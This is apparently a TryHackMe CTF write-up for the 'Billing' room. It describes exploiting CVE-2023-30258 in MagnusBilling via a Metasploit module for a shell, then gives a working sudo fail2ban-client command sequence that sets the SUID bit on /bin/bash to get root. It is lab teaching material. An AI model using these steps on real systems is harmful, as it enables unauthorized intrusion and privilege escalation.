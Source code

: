 ```yaml
---
title: TryHackMe Billing Write-Up Walk Through
date: 2025-03-09 08:00:00 +0200
categories: [TryHackMe, CTF, TryHackMe Write Up]
thumbnail: "assets/img/tryhackme-billings-room.png"
tags: [tryhackme,ctf, magnusbilling, ctf, fail2ban,unauthenticated Remote Command Execution]
description: "Exploit CVE-2023-30258 on TryHackMe's Billing room and escalate to root with fail2ban-client."
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-billings-room-f.png
  alt: TryHackMe Billing
---
```


## TryHackMe Billing Room: MagnusBilling Exploit - From Initial Access to Root

After running an initial scan, you'll discover a **MagnusBilling** instance running on **port 80**. A quick Google search reveals **CVE-2023-30258**, an **unauthenticated Remote Command Execution (RCE)** vulnerability—your ticket in.

**[You can follow YouTube video walk through here](https://youtu.be/p2ozqA4nbLg)**

## Exploiting CVE-2023-30258: Two Paths to Initial Access

There are two effective ways to exploit this:

- **Metasploit Module**: Fire up the `magnusbilling_unauth_rce_cve_2023_30258` module. Set your `LHOST` (your IP) and `RHOST` (target IP) to snag a shell.
- **Python Script**: Prefer a hands-on approach? Use a custom Python script for manual RCE.

Both drop you into a shell as the `asterisk` user on the `Billing` machine.

## Privilege Escalation: Unlocking Root with `fail2ban-client`

Once inside, run `sudo -l` and you'll see:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This is gold. The `asterisk` user can run `/usr/bin/fail2ban-client` as **root** without a password, opening up multiple escalation paths.

### Example Exploit: SUID Root Shell

Here's one method to get root:

```console
sudo /usr/bin/fail2ban-client set sshd addaction myexploit
sudo /usr/bin/fail2ban-client set sshd action myexploit actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.5
ls -l /bin/bash
/bin/bash -p
```

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/p2ozqA4nbLg)** on my YouTube channel for step-by-step guidance:

**[CLICK HERE FOR YOUTUBE VIDEO WALK THROUGH](https://youtu.be/p2ozqA4nbLg)**

<a href="https://youtu.be/p2ozqA4nbLg">
  <img src="tryhackme-billings-room-youtube.png"  alt="TryHackMe Billing" >
</a>


